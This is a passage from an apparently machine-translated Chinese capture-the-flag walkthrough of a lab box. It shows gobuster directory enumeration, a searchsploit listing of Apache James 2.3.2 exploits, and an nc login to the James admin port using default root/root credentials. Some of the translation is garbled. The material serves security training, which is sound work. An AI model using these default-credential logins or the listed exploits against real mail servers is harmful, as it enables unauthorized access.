     ===============================================================
    2020/04/26 14:16:48 Starting gobuster
    ===============================================================
    /index.html (Status: 200)
    /images (Status: 301)
    /about.html (Status: 200)
    /services.html (Status: 200)
    /assets (Status: 301)
    ===============================================================
    2020/04/26 14:18:00 Finished
    ===============================================================
    

此时，我将从 HTTP 继续。

### 詹姆斯邮件服务器 - TCP 25/110/119/4555

詹姆斯邮件服务器正在侦听四个具有不同功能的端口。TCP 25 上的简单邮件传输协议 （SMTP）、TCP 110 上的邮局协议 （POP3） 和 TCP 119 上的网络新闻传输协议 （NNTP） 都是此框提供的服务。我可以查看潜在的暴力破解强制有效用户名或发送网络钓鱼电子邮件，但首先我想查看端口4555。

TCP 端口 4555 很有趣，因为它是詹姆斯管理端口。即使没有漏洞利用，如果我可以访问此服务，我也可能会进入可能有用的东西。也就是说，我会先检查. 已将其标识为版本 2.3.2，并且 RCE 漏洞利用存在匹配项：`searchsploit``nmap`

    root@kali# searchsploit james
    ------------------------------------------------------------------ ----------------------------------------
     Exploit Title                                                    |  Path
                                                                      | (/usr/share/exploitdb/)
    ------------------------------------------------------------------ ----------------------------------------
    Apache James Server 2.2 - SMTP Denial of Service                  | exploits/multiple/dos/27915.pl
    Apache James Server 2.3.2 - Insecure User Creation Arbitrary File | exploits/linux/remote/48130.rb
    Apache James Server 2.3.2 - Remote Command Execution              | exploits/linux/remote/35513.py
    WheresJames Webcam Publisher Beta 2.0.0014 - Remote Buffer Overfl | exploits/windows/remote/944.c
    ------------------------------------------------------------------ ----------------------------------------
    Shellcodes: No Result
    

## 贝壳作为明迪

### 詹姆斯 管理员 – > 邮件访问

我可以使用 连接到 4555，系统会提示我登录。根/根工作的默认信誉：`nc`

    root@kali# nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands
    
